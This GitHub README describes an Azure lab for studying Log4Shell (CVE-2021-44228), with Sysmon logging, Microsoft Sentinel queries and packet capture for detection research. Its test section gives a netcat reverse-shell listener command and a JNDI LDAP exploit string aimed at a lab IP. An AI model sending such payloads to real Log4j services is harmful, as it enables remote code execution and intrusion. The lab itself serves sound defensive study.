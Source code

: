 # CVE-2021-44228 Log4Shell Research Lab Environment

[![Deploy to Azure](https://aka.ms/deploytoazurebutton)](https://portal.azure.com/#create/Microsoft.Template/uri/https%3A%2F%2Fraw.githubusercontent.com%2FOTRF%2FMicrosoft-Sentinel2Go%2Fmaster%2Fgrocery-list%2FLinux%2Fdemos%2FCVE-2021-44228-Log4Shell%2Fazuredeploy.json)

## Metadata

* **Author:** [Roberto Rodriguez (@Cyb3rWard0g)](https://twitter.com/Cyb3rWard0g)
* **Deployment time:** 5-10 mins

## Grocery Items

* Microsoft Sentinel
    * Would you like to Bring-Your-Own Microsoft Sentinel?.
    * If so, set the `workspaceId` and `workspaceKey` parameters of your own workspace.
* 2 Linux VMs: `Ubuntu 18.04.6 LTS` - Kernel release: `5.4.0-1059-azure `
    * `UBUNTU5`
        * [Log Analytics Agent for Linux](https://github.com/microsoft/OMS-Agent-for-Linux) installed
        * It connects to the Microsoft Log Analytics workspace defined in the template.
        * [Syslog Data Connector](https://docs.microsoft.com/en-us/azure/sentinel/connect-syslog) enabled
        * Linux Syslog Facilities collected
            * `user`
        * [Sysmon for Linux installed](https://github.com/Sysinternals/SysmonForLinux)
            * [Sysmon for Linux installer](https://github.com/OTRF/Blacksmith/blob/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh)
            * [Sysmon configuration](https://github.com/OTRF/Blacksmith/blob/master/resources/configs/sysmon/linux/sysmon.xml)
    * `UBUNTU6`
        * LDAP Reference server
        * Web server

## Validate Environment

### UBUNTU5
SSH to `UBUNTU5` box and check for `Sysmon for Linux` running:

```bash
service sysmon status
```
### UBUNTU6
SSH to `UBUNTU6` box to make sure the `LDAPRefServer` and `Nginx (Web Server)` are running:

```bash
docker ps

docker logs --follow ldap-server
docker logs --follow web-server
```

## Run Basic Test

This scenario simulates an attacker using the log4j RCE vulnerability to get a reverse shell via netcat.
### UBUNTU6

Start a netcat listener on port `443`:

```
nc -lvnp 443
```

### UBUNTU5

Vulnerable app was compiled during the deployment of the Azure VM.

```
cd /opt/log4shell-lab/vulnApps/basicJar
java -cp target/Log4jLabProject-1.0-SNAPSHOT-all.jar com.log4jshell.App '${jndi:ldap://192.168.2.6:1389/Run}'
```

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell4.png)

## Query Microsoft Sentinel

Check your Sysmon logs:

```
Syslog 
| extend EventID = parse_xml(SyslogMessage).Event.System.EventID 
| extend EventData = parse_xml(SyslogMessage).Event.EventData.Data 
| mv-expand bagexpansion=array EventData 
| evaluate bag_unpack(EventData) 
| extend Key=tostring(['@Name']), Value=['#text'] 
| evaluate pivot( 
    Key, any(Value), TimeGenerated, TenantId, SourceSystem, 
    EventID, Computer, Facility, SeverityLevel, HostIP, MG, Type, _ResourceId 
)
```

## Additional Features

### Collect Network Traffic via TCPDump

on `UBUNTU5`, open a new ssh session and run the following commands before running the basic test:

```bash
tcpdump -i eth0 -w log4jShell.pcap host 192.168.2.5 and host 192.168.2.6
```

You can then copy the PCAP from your Azure VM to your local endpoint:

```bash
scp user@x.x.x.x:/home/user/log4jShell.pcap C:\Users\YOU\Downloads\
```

Open the PCAP in [Wireshark](https://www.wireshark.org/):

![](../../../../resources/images/log4jshell-trigger-rce-basicjar-reverseshell-pcap.png)

**Security Datasets - PCAP**: [https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html](https://securitydatasets.com/notebooks/atomic/linux/initial_access/SDLIN-211214154100.html)
## References
* https://github.com/Cyb3rWard0g/log4jshell-lab